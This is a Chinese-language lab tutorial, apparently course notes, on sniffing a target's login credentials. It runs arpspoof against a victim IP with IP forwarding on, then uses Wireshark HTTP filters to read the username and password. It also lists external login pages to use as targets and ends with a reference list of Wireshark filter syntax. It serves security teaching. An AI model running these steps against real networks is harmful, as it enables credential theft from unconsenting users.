



# ARP-WireShark截获用户数据

## 1.WireShark工具介绍

wireshark的官方下载网站： http://www.wireshark.org/

wireshark是非常流行的网络封包分析软件，功能十分强大。可以截取各种网络封包，显示网络封包的详细信息。

wireshark是开源软件，可以放心使用。 可以运行在Windows，linux和Mac OS上。

## 2.ARP攻击截获密码的步骤

**1.开启数据包转发**

```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

**2.开启ARP攻击**

但说实话这里捕获win10流量，跟arp攻击没啥关系，直接wireshark指定成win10的ip来筛选网络包即可。

```
arpspoof -i eth0 -r 192.168.15.2 -t 192.168.15.100
```

**3.启动wireshark**

```
wireshark
```

选择kali上网的网卡

	

**4.输入过滤条件**

```
(ip.src==192.168.15.141 or ip.dst==192.168.15.141) and tcp.port==80 and http
```

**5.靶机登录后台系统**

```
http://mng.517628.com/login.php
http://vmims.eguagua.cn/#/Login
```

**6.wireshark寻找用户的登录信息**

只需把过滤条件的源地址和目的地址改成win10的ip即可。

比如抓包可以抓到，win10靶机，访问dvwa的账号密码。

		

下图是马士兵老师做的实验，如果具有js字段还能看到js字段下网页的响应信息。

	

## 3.WireSahrk 过滤命令讲解

**1.过滤源ip，目的ip**

​	在wireshark的过滤规则框Filter中输入过滤条件。

​	如查找目的地址为192.168.110.11的包

```
ip.dst==192.168.110.11
```

​	查找源地址为1.1.1.1的包

```
ip.src==1.1.1.1
```

**2.端口过滤**

2.1把源端口和目的端口为80的都过滤出来

```
tcp.port==80
```

2.2只过滤目的端口为80的

```
tcp.dstport==80
```

2.3只过滤源端口为80的包

```
tcp.srcport==80
```

**3.协议过滤**

直接在Filter框中直接输入协议名即可滤

```
http
tcp
ssh
```

**4.http模式过滤**

4.1过滤get包

```
http.request.method=="GET"
```

4.2过滤post包

```
http.request.method=="POST"
```

**5.过滤多种条件**

用and连接，如过滤ip为192.168.110.11并且为http协议的

```
ip.src==192.168.110.11 and http
```

## 4.课堂小结

请看ARP-WireShark获取用户信息.xmind

